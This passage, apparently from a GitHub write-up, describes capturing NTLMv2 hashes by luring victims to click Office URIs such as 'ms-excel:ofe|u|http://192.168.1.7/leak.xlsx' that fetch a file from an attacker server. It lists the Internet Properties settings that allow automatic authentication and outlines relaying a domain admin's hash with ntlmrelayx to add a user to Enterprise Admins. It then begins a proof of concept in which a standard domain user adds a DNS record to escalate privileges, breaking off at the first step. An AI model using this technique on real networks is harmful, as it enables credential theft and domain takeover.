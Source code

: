 ## Misconfiguration with GPO in Internet Properties
The "Internet Properties" settings affect NTLM authentication behavior of Office applications. We can see this with a few examples. Let's assume we are using the `ms-excel:ofe|u|http://192.168.1.7/leak.xlsx` URI format to capture NTLMv2 hash. <br>
When one of the GPOs listed below is applied to a victim machine which is domain-joined, the Office application performs the authentication automatically.

1. `Automatic logon with current user name and password` is set for `User Authentication` in `Internet Zone`
2. A subnet or IP address range is added to sites of `Local Intranet` `(e.g., 192.168.*.* , 192.168.0-255.* , 192.168.1.7)`
3. A subnet or IP address range is added to `Trusted sites` `(e.g., 192.168.*.* , 192.168.0-255.* , 192.168.1.7)` and `Automatic logon with current user name and password` is set for `User Authentication` in `Trusted Sites` zone


![userlogonoptions](https://github.com/user-attachments/assets/d77b93ef-5c79-4f42-9f5c-30b6776c5766)

In the case where one of the GPOs mentioned above is applied, after the victim user clicks on the URI, the `leak.docx` file will be fetched by the Office application from the attacker's server and the NTLMv2 hash will be obtained because the applied GPO causes NTLM authentication to occur automatically. 


![ntlmauth](https://github.com/user-attachments/assets/ec0a81b9-9e17-4c6d-8a46-07b2c6d1e15d)

Example Scenario for Abusing the GPO: <br>
After setting the Office URI with the IP address `(e.g., ms-excel:ofe|u|http://192.168.1.7/leak.xlsx)`, we can send the URL of the `office.html` to a user with domain admin privileges and relay the captured hash to the LDAP(S) server using the `ntlmrelayx`. The `ntlmrelayx` will create a new user and add it to Enterprise Admins group with just clicking "Open" button.

Note: <br>
The sites added via GPO can be listed using the following registry keys.
```
Get-ItemProperty "hkcu:\Software\policies\microsoft\windows\currentversion\internet settings\ZoneMapKey"
Get-ItemProperty "hklm:\Software\policies\microsoft\windows\currentversion\internet settings\ZoneMapKey"
```
```
0: Internet | 1: Local Intranet | 2: Trusted Sites | 3: Restricted Sites
```

## Proof Of Concept
If one of the GPOs mentioned above is not applied, NTLM authentication will not occur automatically. However, if we add a DNS A record and use this record within the Office URI, Windows will consider the hostname as part of the Intranet Zone. In this way, NTLMv2 authentication occurs automatically and a standard user can escalate privileges without needing a misconfigured GPO. Any domain user with standard privileges can add a non-existent DNS record **`so this attack works with default settings for a domain user`**. 

1. Add a DNS record to resolve hostname to attacker IP address which runs ntlmrelayx. It takes approximately 5 minutes for the created record to start resolving.
    